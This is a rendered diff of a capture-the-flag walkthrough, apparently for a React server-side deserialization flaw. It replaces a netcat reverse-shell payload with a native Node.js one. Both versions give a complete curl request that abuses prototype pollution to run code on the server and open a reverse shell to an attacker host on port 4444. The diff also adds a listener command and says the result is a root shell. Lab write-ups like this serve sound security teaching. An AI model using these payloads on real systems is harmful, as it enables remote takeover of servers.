

Before and after one commit to yz9yt/React2Shell-CTF, a Markdown page: WALKTHROUGH_EN.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/WALKTHROUGH_EN.md
+++ b/WALKTHROUGH_EN.md
@@ -128,13 +128,15 @@ require('child_process').exec('nc YOUR_IP 4444 -e /bin/sh');
 ```
 
 ### 3. Send the Exploit
-Construct the payload. To make it easier, here is the full command (replace `YOUR_IP`):
+We will use a native Node.js payload for the reverse connection. This is more robust and doesn't rely on specific `netcat` versions installed.
+
+Here is the full command (replace `YOUR_IP`):
 
 ```bash
 curl -i -X POST http://localhost:5555/ \
   -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW" \
-  -d $'------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\\"$B1337\\\"}","_response":{"_prefix":"require(\'child_process\').exec(\'nc YOUR_IP 4444 -e /bin/sh\');","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="1"\r\n\r\n"$@0"\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="2"\r\n\r\n[]\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--\r\n'
+  -d $'------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\\"$B1337\\\"}","_response":{"_prefix":"var net=process.mainModule.require(\'net\'),cp=process.mainModule.require(\'child_process\'),sh=cp.spawn(\'/bin/sh\',[]);var client=new net.Socket();client.connect(4444,\'YOUR_IP\',function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="1"\r\n\r\n"$@0"\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="2"\r\n\r\n[]\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--\r\n'
 ```
 
-If successful, check your listener terminal. You should have a shell!
-Try typing: `whoami` -> should return `root` (or `node`).
+If successful, check your listener terminal (`nc -lvnp 4444`). You should have a shell!
+Try typing: `whoami` -> should return `root`.
````
Also changed, not shown: WALKTHROUGH_ES.md (+6 -4 lines).
